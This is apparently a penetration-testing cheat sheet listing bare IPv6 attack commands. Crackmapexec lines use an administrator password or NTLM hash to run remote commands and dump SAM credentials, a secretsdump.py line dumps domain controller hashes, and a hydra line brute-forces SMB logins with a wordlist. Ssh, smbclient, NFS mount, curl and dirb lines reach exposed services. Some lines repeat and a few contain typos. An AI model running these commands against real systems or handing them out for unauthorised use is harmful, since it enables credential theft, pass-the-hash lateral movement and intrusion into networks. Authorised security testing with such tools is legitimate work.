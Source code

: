 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"|
|python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |

### IPv6 hydra Password Brute Force
| for Example  |
| ------------- |
|hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 smb://[IPv6] |

### IPv6 Services
| for Example  |
| ------------- |
|ssh MeMe@fe80::ea9a:8fff:fe67:190d%eth0 |
|smbclient -L //2001:db7::1234:1%eth0 |
|http://[2001:db7::1234:2] |
|telnet 3ffe:400:100::1 80 |
|mount -t nfs [2001:db8::60fe:5bff:febc:912]:/home/MeMe /home/mount/ |
|curl -g [fe80::ba27:ebff:fe60:89af] |
|curl -g [::1]:8080|
|curl -g http://[::1]:8080/ |
|curl -I [2001:db7::1234:1] -v -V -K|
|dirb http://[2001:db7::1234:1]|

